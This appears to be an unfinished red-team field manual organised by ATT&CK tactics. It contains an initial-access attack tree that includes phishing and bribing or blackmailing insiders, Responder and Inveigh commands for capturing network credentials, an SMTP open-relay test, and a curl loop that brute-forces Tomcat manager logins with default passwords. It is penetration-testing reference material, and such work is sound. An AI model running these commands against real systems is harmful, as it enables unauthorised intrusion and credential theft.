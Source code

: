 
# Security Testing Field Manual

Introduction and purpose.

# Operational Considerations

## Goals

List of possible goals.

## Operation Planning

```
1. Set goal(s): objectives to accomplish
2. Combine various tactics to achieve your operational goal(s)
3. Select appropriate tachniques (and choose suitable tools) to achieve your tactical goals
```

## Toolbox

# Tactical Objectives

## Ops-Sec Considerations ([PRE-ATT&CK: TA0021](https://attack.mitre.org/tactics/TA0021/))

## Attack Infrastructure ([PRE-ATT&CK: TA0022](https://attack.mitre.org/tactics/TA0022/))

## Getting Access ([ATT&CK: TA0001](https://attack.mitre.org/tactics/TA0001/))

*Tactical goal: get IP address in target's internal network*

Possible techniques (in a form of attack tree):

```
1. [OR] Social Engineering
1.1. [OR] Delivery of phishing email/message
1.1.1. Malicious link (T1192)
1.1.2. Malicious attachment (T1193)
1.1.3. Malicious social media message (T1194)
1.2. Drive-by compromise (T1189)
1.3. [OR] "Tasking" insider to plant connect-back implant
1.3.1. by fooling him (e.g. run it for me; print doc from this USB)
1.3.2. by bribing him
1.3.3. by blackmailing him
1.4. Fooling insider to reveal his credentials (T1078)
...

2. [OR] Breaching the perimeter/DMZ
2.1. Exploit Public-Facing Application (T1190)
2.2. Exploit remote access mechanism (T1133)
...

3. [OR] Proximity attacks
3.1. Hacking into wireless network
3.2. Using USB drive drops (T1091)
3.3. [OR] Breaching physical perimeter
3.3.1. Plant drop-in device and plug it into network
3.3.2. Plant USB device and plug it to existing machine
...

4. [OR] Exploiting Trusted Relationship (T1199)
4.1. [OR] Hack 3rd party entity that delivers service to target (T1195)
4.1.1. Open source Software supplier 
4.1.2. Commercial Software supplier 
4.1.3. Hack company that provides services to the target
4.1.4. Hack target's contractor worker
4.2. [AND] Hack "to be acquired" company
4.2.1. Get knowledge about near aquisitions
4.2.1. Hack the company that is going to be acquired 
4.3. [AND] Build trust relationship with the target
4.3.1. Work as a contractor for the target
4.3.2. Exploit the trust that was built
...
```

## Discovery ([ATT&CK: TA0007](https://attack.mitre.org/tactics/TA0007/))

*Tactical goal: Understand the target environment*

### Understanding the network

```
What's the network topology? Is it flat?
Where are egress points?
Where are "multi-homed" boxes?
```

## Credential Access ([ATT&CK: TA0006](https://attack.mitre.org/tactics/TA0006/))

*Tactical goal: Acquire valid set of credentials*

## Lateral Movement ([ATT&CK: TA0008](https://attack.mitre.org/tactics/TA0008/))

# Techniques (Discovery)

## Network Sniffing ([ATT&CK: T1040](https://attack.mitre.org/techniques/T1040/))

Sniffing:

```
```

Passive OS fingerprinting:

```
# Linux
screen -L -d -m responder -I eth0 -A -f

# Windows
Invoke-Inveigh -IP <current-box-ip> -ConsoleOutput Y -Inspect Y
```

# Techniques (Credential Access)

# Techniques (Lateral Movement)

## Vulnerable/misconfigured Remote Services (T1021 / T1210)

### SMTP service

Ports:

    TCP: 25,587,465

Implementations:

    https://en.wikipedia.org/wiki/List_of_mail_server_software#SMTP

Common misconfiguration: SMTP Open Relay

```
HELO ABC
MAIL FROM: foo@domain.com
RCPT TO: bar@domain.com
DATA
Testing for SMTP open relay issue.
.
QUIT
```

Noteworthy vulnerabilities:

```
```

## Vulnerable/misconfigured HTTP/HTTPS Services (T1021 / T1210)

### Apache Tomcat: default/weak credentials

```
Use `auxiliary/scanner/http/tomcat_mgr_login`
```

OR (if many different ports are used):

```
Prereq: Nmap scan results imported to msf

msf> services -S Coyote -c port -o /tmp/tomcat.csv
$ for i in $(cat /tmp/tomcat.csv | tr -d '"' | tr ',' ':'); do echo "http://$i/manager/html"; done > tomcat-urls.txt

$ wget https://raw.githubusercontent.com/netbiosX/Default-Credentials/master/Apache-Tomcat-Default-Passwords.mdown

$ cat Apache-Tomcat-Default-Passwords.mdown | tr -d ' ' | awk -F'|' '{print $2":"$3}' > PAYLOADS/tomcat-defaults.txt

$ while read line; do echo -n "$line : "; for i in $(cat PAYLOADS/tomcat-defaults.txt); do curl -H "Authorization: Basic $(echo -n "$i" | base64)" -s -o /dev/null -w "%{http_code}" --url "$line"; echo; done; done < tomcat-urls.txt > tomcats-results.txt
```
